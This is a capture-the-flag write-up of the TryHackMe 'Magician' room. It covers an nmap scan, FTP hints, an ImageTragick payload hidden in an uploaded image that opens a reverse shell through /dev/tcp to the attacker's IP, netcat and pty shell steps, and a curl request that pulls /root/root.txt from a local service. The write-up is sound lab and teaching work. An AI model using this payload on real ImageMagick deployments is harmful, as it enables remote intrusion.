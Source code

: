 ```yaml
---
title: "Magician TryHackMe"
date: "08-07-2021"
author: "Reda BELHAJ"
summary: "This magical website lets you convert image file formats, room from TryHackme reated by M0N573R777 and ripcurlz."
tags: ["Tryhackme", "Ctf", "Writeup"]
image: "/images/Magician/bg.jpg"
---
```

Let’s take a look at the [Magician CTF](https://tryhackme.com/room/magician) on TryHackMe.
Let’s first add the hostname to our `/etc/hosts` file, as told in the room:

```
echo "10.10.244.57 magician" | sudo tee -a /etc/hosts
```

## Enumeration
### Nmap Scan
The first step of my enumeration was a nmap scan. by the command:

```
nmap -sC -sV -T4 -p- -oN nmapscan magician
```

```
PORT     STATE SERVICE    REASON         VERSION
21/tcp   open  ftp        syn-ack ttl 63 vsftpd 2.0.8 or later
8080/tcp open  http-proxy syn-ack ttl 63
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Fri, 06 Aug 2021 21:15:35 GMT
|     Connection: close
|     {"timestamp":"2021-08-06T21:15:35.319+0000","status":404,"error":"Not Found","message":"No message available","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
|   GetRequest: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Fri, 06 Aug 2021 21:15:34 GMT
|     Connection: close
|     {"timestamp":"2021-08-06T21:15:34.270+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   HTTPOptions: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Fri, 06 Aug 2021 21:15:34 GMT
|     Connection: close
|     {"timestamp":"2021-08-06T21:15:34.678+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   RTSPRequest: 
|     HTTP/1.1 505 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 465
|     Date: Fri, 06 Aug 2021 21:15:34 GMT
|     <!doctype html><html lang="en"><head><title>HTTP Status 505 
|     HTTP Version Not Supported</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 505 
|_    HTTP Version Not Supported</h1></body></html>
|_http-title: Site doesn't have a title (application/json).
8081/tcp open  http       syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: CA4D0E532A1010F93901DFCB3A9FC682
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: magician
```
The “Nmap Output” displayed `3` services running under ports 21, 8080 and 8081.

## Exploring 
Navigating to the services:

- we got first a **FTP service** and I tried to connect to it as anonymous:

![FTP](/images/Magician/ftp.jpg)

- Browsing to http://magician:8080 we got a whitelabel error page and indicates that there's no explicit mapping for /error

- Browsing to http://magician:8081 we got a web application that let us convert image file formats and with the hint that we got from FTP:

```
The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
```

## Exploiting
After some research I've got a [github repo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20Image%20Magik#exploit-v1) that let me  exploit the web app:

```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/10.8.174.180/4444 0<&1 2>&1'
pop graphic-context
pop graphic-context
```
![Payload](/images/Magician/payload.jpg)

Then I opened a netcat listener and upload the image:

```
nc -nlvp 4444
```

## User Flag
In our listener window, a reverse shell appears and I tried to upgrade NC shell with [Python](https://zsecure.uk/guides/upgrade-nc-shell-with-python-3/):

```
python -c 'import pty; pty.spawn("/bin/bash")'
```
And I got the flag :

```
THM{******************}
```

## Root Flag
For the root flag I was thinking a privilege escalation but the hint led to another path:

```
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
```
So I checked the network connections with netstat command:

```
netstat -anp
```

![Netstat](/images/Magician/netstats.jpg)

So first I tried to access the source code of the web app in the port **6666** with curl command. Then I got a form and an input with the name and the id of `filename` so I tested the root flag file:

```
curl -X POST http://127.0.0.1:6666 -d "filename=/root/root.txt"
```

And I got a encoded data its seems like **ROT13** algorithm:

```
echo "GUZ{******************}" | tr '[A-Za-z]' '[N-ZA-Mn-za-m]'
```

```
THM{******************}
```
